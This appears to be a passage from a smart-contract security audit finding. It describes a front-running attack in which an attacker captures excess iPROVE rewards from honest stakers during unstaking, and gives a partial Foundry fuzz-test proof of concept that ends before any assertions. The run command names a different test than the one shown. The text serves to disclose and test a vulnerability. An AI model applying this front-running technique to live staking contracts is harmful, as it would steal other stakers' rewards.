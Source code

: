## Impact Explanation

* **Impact Level**: Medium
* **Risk**: Allows a front‑runner to steal rewards that would otherwise be distributed to honest stakers by capturing the excess `iPROVE` returned to the prover.

## Likelihood Explanation

No special conditions are required. An attacker merely needs to detect a pending unstake transaction of sufficient size and front‑run it to profit from the returned excess.

## Proof of Concept

Add the following import to your test file:

```solidity
import "lib/forge-std/src/console.sol";
```

Run the test: `forge test --mt test_Unstake_WhenTwoStakers_Dispense_When_DispenseRate_Changes -vvvv`

```solidity
function testFuzz_Reward_WhenWithPartialUnstake_FrontRun(
    uint256 _unstakePercent,
    uint256 _rewardAmount
) public {
    uint256 stakeAmount = STAKER_PROVE_AMOUNT;
    uint256 unstakePercent = bound(_unstakePercent, 10, 90); // 10–90% unstake
    uint256 unstakeAmount = (stakeAmount * unstakePercent) / 100;
    uint256 rewardAmount = bound(
        _rewardAmount,
        REQUESTER_PROVE_AMOUNT / 10,
        REQUESTER_PROVE_AMOUNT / 4
    );

    // Stake
    _stake(STAKER_1, ALICE_PROVER, stakeAmount);

    // Request partial unstake
    _requestUnstake(STAKER_1, unstakeAmount);

    // Process reward while unstaking
    MockVApp(VAPP).processFulfillment(ALICE_PROVER, rewardAmount);

    // Calculate and withdraw
    (uint256 protocolFee, uint256 stakerReward, uint256 ownerReward) =
        _calculateFullRewardSplit(rewardAmount);
    _withdrawFromVApp(FEE_VAULT, protocolFee);
    _withdrawFromVApp(ALICE, ownerReward);
    _withdrawFromVApp(ALICE_PROVER, stakerReward);

    // Complete unstake
    skip(UNSTAKE_PERIOD);

    uint256 stake2 = _stake(STAKER_2, ALICE_PROVER, stakeAmount);

    uint256 receivedAmount1 = _finishUnstake(STAKER_1);

    _requestUnstake(STAKER_2, stake2);

    skip(UNSTAKE_PERIOD);

    uint256 receivedAmount2 = _finishUnstake(STAKER_2);
```